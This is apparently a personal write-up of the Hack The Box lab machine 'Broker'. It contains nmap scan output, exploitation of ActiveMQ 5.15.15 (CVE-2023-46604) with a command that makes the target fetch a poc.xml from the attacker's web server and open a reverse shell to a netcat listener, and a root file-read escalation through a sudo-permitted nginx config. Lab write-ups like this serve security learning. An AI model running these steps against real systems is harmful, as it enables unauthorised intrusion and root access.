



# Nmap 7.94 scan initiated Sun Nov 12 21:11:05 2023 as: nmap -sV -sC -T4 -p- -v -oA Broker 10.10.11.243
Nmap scan report for 10.10.11.243
Host is up (0.089s latency).
Not shown: 65526 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_ 256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_ basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1883/tcp open mqtt
| mqtt-subscribe:
| Topics and their most recent payloads:
| ActiveMQ/Advisory/Consumer/Topic/#:
|_ ActiveMQ/Advisory/MasterBroker:
5672/tcp open amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
| AMQP
| AMQP
| amqp:decode-error
|_ 7Connection from client using unsupported AMQP attempted
8161/tcp open http Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_ basic realm=ActiveMQRealm
44195/tcp open tcpwrapped
61613/tcp open stomp Apache ActiveMQ
| fingerprint-strings:
| HELP4STOMP:
| ERROR
| content-type:text/plain
| message:Unknown STOMP action: HELP
| org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
| org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
| org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
| org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
| org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
| org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_ java.lang.Thread.run(Thread.java:750)
61614/tcp open http Jetty 9.4.39.v20210325
| http-methods:
| Supported Methods: GET HEAD TRACE OPTIONS
|_ Potentially risky methods: TRACE
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title.
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
61616/tcp open apachemq ActiveMQ OpenWire transport
| fingerprint-strings:
| NULL:
| ActiveMQ
| TcpNoDelayEnabled
| SizePrefixDisabled
| CacheSize
| ProviderName
| ActiveMQ
| StackTraceEnabled
| PlatformDetails
| Java
| CacheEnabled
| TightEncodingEnabled
| MaxFrameSize
| MaxInactivityDuration
| MaxInactivityDurationInitalDelay
| ProviderVersion
|_ 5.15.15
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
Port 80 we are denied access, it requires a login.
Port 61616 is running ActiveMQ 5.15.15 which has an RCE exploit
https://github.com/evkl1d/CVE-2023-46604/tree/main
I tried some sketchy chinese one first which failed. The link above worked. Download the exploit.py and poc.xml. We edit the poc.xml to send a reverse shell to our IP.
Commands ran
One tab we start a python web server with the poc.xml file
Start a netcat listener on port 9999
python exploit.py -i 10.10.11.243 -p 61616 -u http://10.10.14.3:8000/poc.xml
We get a shell as activemq

We can run nginx as root
User activemq may run the following commands on broker:
(ALL : ALL) NOPASSWD: /usr/sbin/nginx
I had to cheat because i couldnt figure out what to do.
We can create our own webpage with nginx and use -c to specify our own config file essentially creating a rouge web server.
Place this into a conf file
user root;
events {
worker_connections 1024;
}
http {
server {
listen 1337;
root /;
autoindex on;
}
}
sudo /usr/sbin/nginx -c /tmp/test.conf
After running this command we can see the rouge web page on 1337

This web page will allow us to read files on the machine.
We can then use curl to read any files on the machine
curl localhost:1337/root/root.txt
